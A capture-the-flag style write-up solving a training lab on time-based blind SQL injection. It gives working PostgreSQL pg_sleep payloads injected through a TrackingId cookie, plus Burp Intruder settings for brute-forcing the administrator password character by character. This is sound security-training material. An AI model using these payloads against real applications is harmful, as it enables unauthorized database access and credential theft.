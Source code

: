 # Lab: Blind SQL injection with time delays and information retrieval
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution
The fundamentals are the same like in the lab before ([Visible error-based SQL injection](Visible_error-based_SQL_injection.md)).

So we can use a conditional query to make usage of the blind SQL injection. The query will delay if the condition is true.
```
TrackingId=HEmNuOdbcGF4dMy8' || CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END ||'
```

### Information gathering
#### Users table
As usual we have to verify that there is a table called 'users'. We can test that with the following query:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users) ||'
```

The `FROM` part of this statement will be executed first. If it has some return value, the `SELECT` part will be executed. Since `1=1` is everytime true, `pg_sleep(2)` will be executed. So if we get a delay, the table exists. If the table wouldn't exists, we won't get a delay.

We can verify it with a query like this:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM test) ||'
```
It won't create a response delay.

#### Administrator user
To check for the username 'administrator', we can simply add this `WHERE` clause:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```
Same again, delay means the username exists, no delay means it doesn't.

#### Password length
Check for the password length:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN LENGTH(password)>1 THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```
If we want to use Burp Intruder, than we have to adjust it's parameters. The query stays the same and we use the 'Numbers' payload type. But in the 'Resource pool' we have to use a pool with 'Maximum concurrent requests' of 1. Otherwise Burp would use multiple threads, which would falsify the response time. With that we can start the attack.

In results window, we have to select the tab 'Column' and activate the column 'Response received'. Now we can see the differences between the delayed and the not delayed functions.

The configuration and the results are shown below.

| Positions | Payloads | Resource pool | Results |
| --------- | -------- | ------------- | ------- |
| ![Positions](../images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_0.png) | ![Payloads](../images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_1.png) | ![Resource pool](../images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_2.png) | ![Results](../images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_3.png) |

#### Password character
Check for single characters:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```

To automate this task we choose the attack type 'Cluster bomb' with the following query (take a look at the two § sections):
```
TrackingId=RNF8Kn129ihmCTHM' || (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```

The first parameter gets the payload type 'Numbers' and the second one 'Brute forcer' with the characters [a-z] and [0-9]. The other settings will be the same. In the results we see the correct characters with the longer response time.

The process of the result will look like this:
![Results](../images/Blind_SQL_injection_time_delay_Burp_Intruder/Blind_SQL_injection_time_delay_Burp_Intruder_4.png)

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._

With that we found the password: `lm1d0xmmuclz30yg3oap`

Logging in with the found credentials will solve the lab.